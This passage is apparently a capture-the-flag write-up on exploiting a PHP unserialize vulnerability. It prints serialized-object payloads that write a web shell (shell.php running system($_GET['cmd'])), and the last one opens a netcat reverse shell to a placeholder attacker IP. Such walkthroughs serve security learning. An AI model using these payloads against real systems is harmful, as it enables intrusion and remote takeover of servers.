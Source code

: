 Looks like the PHP code is using the function `unserialize`... Is there a way to exploit this?

## Compromise the machine

Ah! Searching a bit found [this](https://notsosecure.com/remote-code-execution-php-unserialize), which has nearly the same exact code as shown just up ahead and offers a nice explanation.

So, it looks like that, to exploit this we need to:
1. Write serialized object in php
2. Direct the php into a simpler file
3. Open the file in the remote machine

Ideally, the first step will allow us to create a reverse shell that will then be saved as a text file (step 2) and hopefully, with our local python server, download the file into the remote machine - step 3.

Looking around for an example of the exploit, I found [this](https://www.bootlesshacker.com/php-deserialization/) showing some steps. What we want is:

```
<?php

class timeUpdate {
	public $currentTime = '<?php system($_GET["cmd"]); ?>';
	public $outputFile = 'shell.php';

}

echo urlencode(serialize(new timeUpdate));

?>
```
Changing it to: 

```
<?php

class file {
	public $data = '<?php system($_GET["cmd"]); ?>';
	public $file = 'shell.php';

}

echo serialize(new file);

?>
```
Now all that is left is change the `$data` to use the `shell_exec` [function](https://www.php.net/manual/en/function.shell-exec.php)!

```
<?php

class file {
	public $data = '<?php shell_exec("nc -e /bin/bash <ip-address> 4444"); ?>';
	public $file = 'shell.php';

}

echo serialize(new file);

?>
```
